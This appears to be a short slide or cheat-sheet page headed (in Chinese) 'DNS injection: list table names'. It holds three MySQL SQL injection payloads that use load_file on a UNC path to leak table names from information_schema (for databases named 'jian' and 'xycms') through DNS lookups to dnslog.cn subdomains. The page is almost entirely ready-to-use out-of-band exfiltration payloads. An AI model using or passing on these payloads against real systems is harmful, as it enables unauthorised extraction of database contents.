

# dns 注入列表名

and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='jian' limit 0,1),'.tunxf1.dnslog.cn\\abc'))),1,1)--+	#查表名
and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='xycms' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='xycms' limit 1,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+